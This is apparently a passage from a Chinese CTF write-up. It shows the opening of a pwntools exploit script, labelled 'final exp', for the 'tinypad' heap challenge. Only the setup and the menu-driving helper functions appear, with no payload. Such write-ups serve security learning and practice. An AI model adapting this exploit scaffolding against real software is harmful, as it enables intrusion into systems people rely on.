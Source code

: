 ![](4.png)

最终exp

```python
from pwn import*
#context.log_level = 'debug'
context.update(arch='amd64',os='linux',timeout=1)
p = process('./tinypad')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def pr(a,addr):
	log.success(a+'===>'+hex(addr))

def add(size, content='a'):
    p.recvuntil('(CMD)>>> ')
    p.sendline('a')
    p.recvuntil('(SIZE)>>> ')
    p.sendline(str(size))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)


def edit(idx, content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('e')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)
    p.recvuntil('Is it OK?\n')
    p.sendline('Y')

```